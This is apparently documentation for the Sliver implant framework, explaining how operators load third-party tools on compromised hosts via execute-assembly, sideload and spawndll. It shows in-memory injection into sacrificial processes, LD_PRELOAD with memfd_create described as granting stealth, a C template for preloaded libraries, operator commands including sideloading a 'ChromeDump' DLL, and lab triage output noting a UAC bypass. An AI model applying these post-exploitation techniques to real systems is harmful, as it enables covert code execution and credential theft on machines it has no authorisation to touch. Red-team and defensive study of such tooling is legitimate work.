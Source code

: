 ## Sideloading features

Sliver implants support three different ways of loading third party tools:

- `execute-assembly`
- `sideload`
- `spawndll`

## Known limitations

Arguments passed to .NET assemblies and non-reflective PE extensions are limited to 256 characters. This is due to a limitation in the Donut loader Sliver is using. A workaround for .NET assemblies is to execute them in-process, using the `--in-process` flag, or a custom BOF extension like `inline-execute-assembly`. There is currently no workaround for non-reflective PE extension.

## .NET assemblies loading

This feature is only supported on Windows.

Using `execute-assembly`, one can run an arbitrary .NET assembly on a remote system via a Sliver implant. The implant will start a sacrificial process (`notepad.exe` by default, you can change this by using the `--process`) that will host a reflective DLL used to load the .NET CLR. The assembly will then be copied into this process and a new thread will start on the reflective DLL entrypoint, which will load and run the assembly in memory.

Here's an example with [Seatbelt](https://github.com/GhostPack/Seatbelt):

```
sliver (CONCRETE_STEEL) > execute-assembly -t 80 /tmp/Seatbelt.exe All
[*] Assembly output:

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,

=== Running System Triage Checks ===

=== Basic OS Information ===

  Hostname                      :  DESKTOP-0QQJ4JL
  Domain Name                   :
  Username                      :  DESKTOP-0QQJ4JL\lab
  ProductName                   :  Windows 10 Pro
  EditionID                     :  Professional
  ReleaseId                     :  1909
  BuildBranch                   :  19h1_release
  CurrentMajorVersionNumber     :  10
  CurrentVersion                :  6.3
  Architecture                  :  AMD64
  ProcessorCount                :  2
  IsVirtualMachine              :  True
  BootTime (approx)             :  5/19/2020 8:55:55 AM
  HighIntegrity                 :  False
  IsLocalAdmin                  :  True
    [*] In medium integrity but user is a local administrator- UAC can be bypassed.
...
```

## Shared libraries side loading

The `sideload` command allows to load and run code in-memory (Windows/Linux) or via dropping a temporary file to disk (MacOS). On Windows, the DLL will be converted to a shellcode via [sRDI](https://github.com/monoxgas/sRDI) and injected into a sacrificial process.

On Linux systems, Sliver uses the `LD_PRELOAD` technique to preload a shared library previously written in a memory file descriptor using the `memfd_create` syscall. That way, no file is stored on disk, which grants the implant a bit of stealth. The shared library is preloaded in a sacrificial process, which is `/bin/ls` by default.

On MacOS systems, Sliver uses the `DYLD_INSERT_LIBRARIES` environment variable to preload a dynamic library into a program, chosen by the operator. The target program must allow unsigned libraries to be loaded that way.

No specific operation is performed by Sliver for Linux and Mac OS shared libraries, which means it's up to the operator to build their shared libraries to execute whenever they see fit. A good starting point would be using the `constructor` attribute for MacOS shared libraries, or adding a `.init_array` section for the Linux version.

Sliver will use the `LD_PARAMS` environment variable to pass arguments to the sideloaded libraries. Thus, the library can just read this environment variable to retrieve parameters and act accordingly.

Here's a starting point :

```c
#if __linux__
#include <stdlib.h>

void DoStuff();

static void init(int argc, char **argv, char **envp)
{
    // unset LD_PRELOAD to prevent sub processes from misbehaving
    unsetenv("LD_PRELOAD");
    // retrieve the LD_PARAMS value
    // unset LD_PARAMS if there's no need for it anymore
    unsetenv("LD_PARAMS");
    DoStuff();
}
__attribute__((section(".init_array"), used)) static typeof(init) *init_p = init;
#elif __APPLE__
void DoStuff();

__attribute__((constructor)) static void init(int argc, char **argv, char **envp)
{
    // unset DYLD_INSERT_LIBRARIES to prevent sub processes from misbehaving
    unsetenv("DYLD_INSERT_LIBRARIES");
    // retrieve the LD_PARAMS value
    // unset LD_PARAMS if there's no need for it anymore
    unsetenv("LD_PARAMS");
    DoStuff();
}

#endif
```

Don't forget to unset the `LD_PRELOAD` or `DYLD_INSERT_LIBRARIES` environment variables, otherwise any sub process started by your shared library or host process will be preloaded with your shared library.

To side load a shared library, use the `sideload` command like this:

```
// Windows example
sliver (CONCRETE_STEEL) > sideload -e ChromeDump /tmp/chrome-dump.dll
// Linux example
sliver (CONCRETE_STEEL) > sideload -p /bin/bash -a "My arguments" /tmp/mylib.so
// MacOS example
sliver (CONCRETE_STEEL) > sideload -p /Applications/Safari.app/Contents/MacOS/SafariForWebKitDevelopment -a 'Hello World' /tmp/mylib.dylib
```

Please be aware that you need to specify the entrypoint to execute for Windows DLLs.

## Loading Reflective DLLs

Loading reflective DLLs is just a special case of side loading DLLs. To make things easier, the `spawndll` command allows you to inject reflective DLLs and run them in a remote process.

Here's an example with the `PsC` tool from [Outflank's Ps-Tools suite](https://github.com/outflanknl/Ps-Tools):

```
sliver (CONCRETE_STEEL) > spawndll /tmp/Outflank-PsC.dll blah
[*] Output:

--------------------------------------------------------------------
[+] ProcessName:         svchost.exe
    ProcessID:   2960
    PPID:        576 (services.exe)
    CreateTime:  19/05/2020 10:53
    Path:        C:\Windows\System32\svchost.exe
    ImageType:   64-bit
    CompanyName:         Microsoft Corporation
    Description:         Host Process for Windows Services
    Version:     10.0.18362.1

<-> Session:     TCP
    State:       ESTABLISHED
    Local Addr:  172.16.241.128:49819
    Remote Addr:         40.67.251.132:443

--------------------------------------------------------------------
[+] ProcessName:         CONCRETE_STEEL.exe
    ProcessID:   7400
    PPID:        5440 (explorer.exe)
    CreateTime:  19/05/2020 10:54
    SessionID:   1
    Path:        C:\Users\lab\Desktop\CONCRETE_STEEL.exe
    ImageType:   64-bit
    UserName:    DESKTOP-0QQJ4JL\lab
    Integrity:   Medium
    PEB Address:         0x0000000000352000
    ImagePath:   C:\Users\lab\Desktop\CONCRETE_STEEL.exe
    CommandLine:         "C:\Users\lab\Desktop\CONCRETE_STEEL.exe"

<-> Session:     TCP
    State:       ESTABLISHED
    Local Addr:  172.16.241.128:49687
    Remote Addr:         172.16.241.1:8888
```

Note that in this case, the entrypoint of the reflective DLL (`ReflectiveLoader`) expects a non NULL parameter, which is why we passed a dummy parameter `blah`.
